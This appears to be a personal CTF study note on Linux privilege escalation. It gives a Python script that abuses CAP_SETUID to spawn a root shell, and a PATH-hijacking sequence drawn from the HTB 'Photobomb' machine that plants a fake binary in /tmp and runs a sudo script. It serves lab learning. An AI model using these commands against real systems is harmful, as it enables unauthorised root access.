 # General Concepts

**Note:** I made this cuz there are some concepts that I'm not very sure of categorizing, so yeah.

## CAP_SETUID bit

If this bit is on in a _python_ binary, refer to [**GTFOBins**](https://gtfobins.github.io/gtfobins/python/#capabilities) for further details.

But basically, if you see this bit set on _python_, use the following script:

```
import os
os.setuid(0)
os.system("/bin/bash")
```

Should be pretty self-explanatory.

## Abusing misconfigured PATH variable

```
PATH=/tmp:$PATH
```

That's the basic concept of how to abuse it. I don't fully understand the logic, but essentially, if a file (preferably with privileged access) does not have an absolute file path, you can make a temporary file (hence, **/tmp** being used in the file path since I usually do it there) that gives you a shell, set execute permissions for it, then reference that **PATH** before the file that actually has the escalated privileges, then it'll execute this temporary file and give you a shell.

Here's an example, based on [**Photobomb**](../../HTB/Photobomb/Writeup.md):

```
1. cd /tmp
2. echo "/bin/bash" > [
3. chmod +x [
4. sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

Where:
```cleanup.sh``` = file with sudo perms
```[``` = binary that can be manipulated (supposedly, in the machine, other bins were vulnerable too apparently)
